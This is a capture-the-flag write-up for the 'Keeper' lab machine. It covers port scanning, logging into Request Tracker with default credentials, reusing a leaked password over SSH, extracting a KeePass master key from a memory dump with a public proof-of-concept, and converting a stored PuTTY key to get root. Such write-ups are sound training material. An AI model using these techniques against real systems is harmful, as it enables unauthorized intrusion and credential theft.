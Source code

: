 we begin with a standard nmap enumeration:

	nmap -p-  -sC -sV 10.10.11.227

output:

	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
	|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).

there is the 80 port so a webserver, we can browse it and there is link:

	To raise an IT support ticket, please visit tickets.keeper.htb/rt/

we add the domain and the subdomain to the internal DNS:

	sudo nano /etc/hosts
	10.10.11.227 tickets.keeper.htb keeper.htb

it's time to see the website, there is a login page of request tracker service, my first idea is to search about the default credentials and it seems to work.
Inside the website there is an email:

		Issue with Keepas Client on Windows

in a few words inside lnorgaard's home directory there is a dump memory of keepass, so we must search inside the website for some credentials; the first thought it's to search see around the site instead inside the lnorgaard's account i found a password:

	New user. Initial password set to <REDACTED>

The password works inside the website in order to access lnorgaard's account but there isn't anything to see but I remembered that the port 22 is open so I tried the same credential and it works, we can retrieve the user flag.
Inside the home directory there is a zipped folder:

	unzip RT30000.zip

output:

	inflating: KeePassDumpFull.dmp   /memory dump/ 
 	extracting: passcodes.kdbx  /database password/

the first time, i tried keepass2john but the cracking takes to much time so I search on internet and I found an interesting python tool at the following [link](https://github.com/CMEPW/keepass-dump-masterkey), we can use the following command:

	git clone https://github.com/CMEPW/keepass-dump-masterkey
	cd keepass-dump-masterkey
	sudo python3 poc.py -d <name>.dmp

the script above tries to retrieve the master key from the dump but it will not show all password text because the first character can't be obtained but with the remaining the text we can search on internet and found the most likely password, and I found it.
Now it's time to use the master key on the database in order to decrypt, we can do it with these commands:

	sudo apt install keepass2
	keepass2

It's a GUI application, we import inside the database and we type the password, sbam we decrypt it then inside there is a putty private key but we must convert it in openssh private key with the commands below:

	nano id_dsa.ppk /we copy the key inside/
	puttygen id_dsa.ppk -O private-openssh -o id_dsa
	ssh -i id_dsa root@10.10.11.227

We're inside and we can obtain the root flag-
